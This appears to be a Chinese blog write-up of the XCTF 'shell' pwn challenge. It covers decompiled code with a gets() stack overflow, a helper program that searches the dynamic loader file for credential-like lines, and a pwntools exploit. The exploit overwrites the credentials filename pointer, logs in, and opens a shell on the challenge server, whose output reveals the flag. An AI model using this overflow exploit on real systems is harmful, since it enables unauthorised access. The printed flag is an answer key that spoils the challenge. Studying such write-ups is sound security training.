

<!--yml
category: 未分类
date: 2022-04-26 14:19:42
-->

# shell [XCTF-PWN][高手进阶区]CTF writeup攻防世界题解系列25_3riC5r的博客-CSDN博客

> 来源：[https://blog.csdn.net/fastergohome/article/details/103736315](https://blog.csdn.net/fastergohome/article/details/103736315)

题目地址：[shell](https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=1&id=4831&page=2)

这个题目是高手进阶区的第14题，这一题我没有按照顺序来，耍脾气来！呵呵

看看保护机制

```
[*] '/ctf/work/python/shell/shell'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

开启了Canary和NX



反编译c语言代码

```
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  int v3; // eax
  __int64 v4; // [rsp+0h] [rbp-F0h]
  __int64 v5; // [rsp+8h] [rbp-E8h]
  __int64 v6; // [rsp+10h] [rbp-E0h]
  __int64 v7; // [rsp+18h] [rbp-D8h]
  const char **addr_cmd; // [rsp+30h] [rbp-C0h]
  const char *szFileP; // [rsp+38h] [rbp-B8h]
  const char *szFileU; // [rsp+40h] [rbp-B0h]
  size_t n; // [rsp+48h] [rbp-A8h]
  __ssize_t nLenRead; // [rsp+50h] [rbp-A0h]
  char *lineptr; // [rsp+58h] [rbp-98h]
  FILE *stream; // [rsp+60h] [rbp-90h]
  char szTip; // [rsp+6Fh] [rbp-81h]
  int bAuth; // [rsp+70h] [rbp-80h]
  int szUsername; // [rsp+74h] [rbp-7Ch]
  int szPassword; // [rsp+94h] [rbp-5Ch]
  int szInput; // [rsp+B4h] [rbp-3Ch]
  char *filename; // [rsp+D8h] [rbp-18h]
  const char **v21; // [rsp+E0h] [rbp-10h]
  int v22; // [rsp+E8h] [rbp-8h]
  int v23; // [rsp+ECh] [rbp-4h]

  v23 = 0;
  v22 = argc;
  v21 = argv;
  filename = "creds.txt";
  bAuth = 0;
  szTip = '$';
  setvbuf(_bss_start, 0LL, 2, 0LL);
  while ( 1 )
  {
    while ( 1 )
    {
      printf("%c ", (unsigned int)szTip, v4, v5, v6, v7);
      gets((__int64)&szInput);
      if ( !strcmp((const char *)&szInput, "login") )
        break;
      addr_cmd = command_get((const char *)&szInput);
      if ( addr_cmd )
      {
        if ( *((_DWORD *)addr_cmd + 4) != 1 || bAuth == 1 )
          ((void (__fastcall *)(int *, const char *))addr_cmd[1])(&szInput, "login");
        else
          HIDWORD(v4) = puts("Permission denied");
      }
      else
      {
        LODWORD(v4) = puts("Command not found");
      }
    }
    printf("Username: ", "login");
    HIDWORD(v7) = gets((__int64)&szUsername);
    LODWORD(v7) = printf("Password: ");
    HIDWORD(v6) = gets((__int64)&szPassword);
    stream = fopen(filename, "r");
    for ( lineptr = 0LL; ; lineptr = 0LL )
    {
      n = 0LL;
      nLenRead = getline(&lineptr, &n, stream);
      if ( nLenRead < 0 )
      {
        free(lineptr);
        goto LABEL_12;
      }
      lineptr[nLenRead - 1] = 0;
      szFileU = strtok(lineptr, ":");
      szFileP = strtok(0LL, ":");
      if ( szFileU )
      {
        if ( szFileP && !strcmp((const char *)&szUsername, szFileU) && !strcmp((const char *)&szPassword, szFileP) )
          break;
      }
      free(lineptr);
    }
    v3 = puts("Authenticated!");
    szTip = 35;
    bAuth = 1;
    LODWORD(v6) = v3;
LABEL_12:
    if ( bAuth != 1 )
      HIDWORD(v5) = puts("Authentication failed!");
    LODWORD(v5) = fclose(stream);
  }
}
```

fgets的函数存在栈溢出，看起来很明显

我用ida调试了几遍，发现没法使用溢出，根本就走不到退出程序，就已经崩溃了，因为读文件读不到。

所以我考虑覆盖filename的地址，在ida的string窗口中查看一下，发现存在文件**ld-linux-x86-64.so.2**

我们就考虑直接覆盖filename的地址覆盖为0x400200

我们下载的文件包中已经有这个文件，我们写个程序搜索一下合适的username和password

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(void)
{
	FILE * fp;
	char * line = NULL;
	size_t len = 0;
	ssize_t read;
	fp = fopen("ld-linux-x86-64.so.2", "r");
	if (fp == NULL)
		exit(EXIT_FAILURE);
	while ((read = getline(&line, &len, fp)) != -1)
	{
		// printf("%s", line);
		char* szDup = strdup(line);

		char *p = NULL;
		int bFind = 0;
		p = strtok(line, ":");
		char *p1 = NULL;
		p1 = strtok(NULL, ":");
		if(p != NULL & p1 != NULL)
		{
			printf("==>%s:%s", p, p1);
			bFind = 1;
		}

		if(bFind == 1)
			printf("++>%s\n", szDup);

		free(szDup);
	}
	if (line)
		free(line);
	exit(EXIT_SUCCESS);
}
```

执行结果如下：

```
root@mypwn:/ctf/work/python/shell# ./findstring 
ܹܹןkC(?????F?++>ֻ$=uTi7J??GC???p?T??B???#d?<I?Xx?k߱;??k?<??sB?Ҋ|F:m?<?9
==>	Version information:
++>	Version information:

==>prelink checking: %s
++>prelink checking: %s

==>relocation processing: %s%s
++>relocation processing: %s%s

==>calling init: %s
++>calling init: %s

==>calling preinit: %s
++>calling preinit: %s

==>calling fini: %s [%lu]
++>calling fini: %s [%lu]

==>conflict processing: %s
++>conflict processing: %s

==>runtime linker statistics:
++>runtime linker statistics:

==>  total startup time in dynamic loader: %s
++>  total startup time in dynamic loader: %s

==>      number of relocations from cache: %lu
++>      number of relocations from cache: %lu

==>        number of relative relocations: %lu
++>        number of relative relocations: %lu

==>WARNING: Unsupported flag value(s) of 0x%x in DT_FLAGS_1.
++>WARNING: Unsupported flag value(s) of 0x%x in DT_FLAGS_1.

==>    entry: 0x%0*lx  phdr++>    entry: 0x%0*lx  phdr: 0x%0*lx  phnum:   %*u

==>runtime linker statistics:
++>runtime linker statistics:

==>           final number of relocations: %lu
++>           final number of relocations: %lu

==>final number of relocations from cache: %lu
++>final number of relocations from cache: %lu
```

找一个短点的，构造python脚本如下：

```
#coding:utf8
#!python
#!/usr/bin/env python

from pwn import *

context.log_level = 'debug'
process_name = './shell'
# p = process([process_name], env={'LD_LIBRARY_PATH':'./'})
p = remote('111.198.29.45', 42941)
elf = ELF(process_name)

# system_sh_addr = 0x400905
# pop_rdi_ret = 0x400f33
libc_file_addr = 0x400200

p.sendlineafter('$ ', 'A'*(0x3C-0x18) + p64(libc_file_addr))
p.sendlineafter('$ ', 'login')
p.sendlineafter('Username: ', 'prelink checking')
pause()
p.sendlineafter('Password: ', ' %s')

p.interactive()
```

执行结果如下：

```
root@mypwn:/ctf/work/python/shell# python shell.py 
[+] Opening connection to 111.198.29.45 on port 42941: Done
[DEBUG] PLT 0x4006fc free
[DEBUG] PLT 0x400710 puts
[DEBUG] PLT 0x400720 fclose
[DEBUG] PLT 0x400730 __stack_chk_fail
[DEBUG] PLT 0x400740 system
[DEBUG] PLT 0x400750 printf
[DEBUG] PLT 0x400760 __libc_start_main
[DEBUG] PLT 0x400770 strcmp
[DEBUG] PLT 0x400780 __gmon_start__
[DEBUG] PLT 0x400790 gets
[DEBUG] PLT 0x4007a0 setvbuf
[DEBUG] PLT 0x4007b0 fopen
[DEBUG] PLT 0x4007c0 strtok
[DEBUG] PLT 0x4007d0 getline
[DEBUG] PLT 0x4007e0 exit
[*] '/ctf/work/python/shell/shell'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[DEBUG] Received 0x2 bytes:
    '$ '
[DEBUG] Sent 0x2d bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000020  41 41 41 41  00 02 40 00  00 00 00 00  0a           │AAAA│··@·│····│·│
    0000002d
[DEBUG] Received 0x11 bytes:
    'Command not found'
[DEBUG] Received 0x3 bytes:
    '\n'
    '$ '
[DEBUG] Sent 0x6 bytes:
    'login\n'
[DEBUG] Received 0xa bytes:
    'Username: '
[DEBUG] Sent 0x11 bytes:
    'prelink checking\n'
[*] Paused (press any to continue)
[DEBUG] Received 0xa bytes:
    'Password: '
[DEBUG] Sent 0x4 bytes:
    ' %s\n'
[*] Switching to interactive mode
[DEBUG] Received 0xe bytes:
    'Authenticated!'
Authenticated![DEBUG] Received 0x3 bytes:
    '\n'
    '# '

# $ sh
[DEBUG] Sent 0x3 bytes:
    'sh\n'
$ sh
[DEBUG] Sent 0x3 bytes:
    'sh\n'
$ ls
[DEBUG] Sent 0x3 bytes:
    'ls\n'
[DEBUG] Received 0x23 bytes:
    'bin\n'
    'dev\n'
    'flag\n'
    'lib\n'
    'lib32\n'
    'lib64\n'
    'shell\n'
bin
dev
flag
lib
lib32
lib64
shell
$ cat flag
[DEBUG] Sent 0x9 bytes:
    'cat flag\n'
[DEBUG] Received 0x2d bytes:
    'cyberpeace{6ead2b810d6eb8f605a7c153ca1c5044}\n'
cyberpeace{6ead2b810d6eb8f605a7c153ca1c5044}
```

执行成功。